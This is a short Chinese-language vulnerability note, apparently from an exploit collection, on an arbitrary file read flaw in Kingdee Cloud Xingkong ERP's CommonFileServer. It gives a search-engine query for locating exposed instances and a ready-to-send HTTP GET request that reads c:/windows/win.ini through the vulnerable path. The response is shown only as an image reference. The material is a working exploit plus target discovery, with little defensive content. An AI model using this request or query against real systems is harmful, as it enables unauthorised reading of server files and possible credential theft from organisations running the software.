 # 金蝶云星空 CommonFileserver 任意文件读取漏洞

## 1.漏洞描述

金蝶云星空是金蝶集团面向大中型企业的一个核心产品，聚焦多组织，多利润中心的企业。它以“开放、标准、社交”三大特性为数字经济时代的企业提供开放的ERP云平台。该产品CommonFileServer存在任意文件读取漏洞。

## 2.搜索语法

```plain
title="金蝶云星空 管理中心"
```

## 3.漏洞复现

```plain
GET /CommonFileServer/c:/windows/win.ini HTTP/1.1
Host: 127.0.0.1
accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

响应包如下：

![image-20240613214127436](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240613214127436.png)
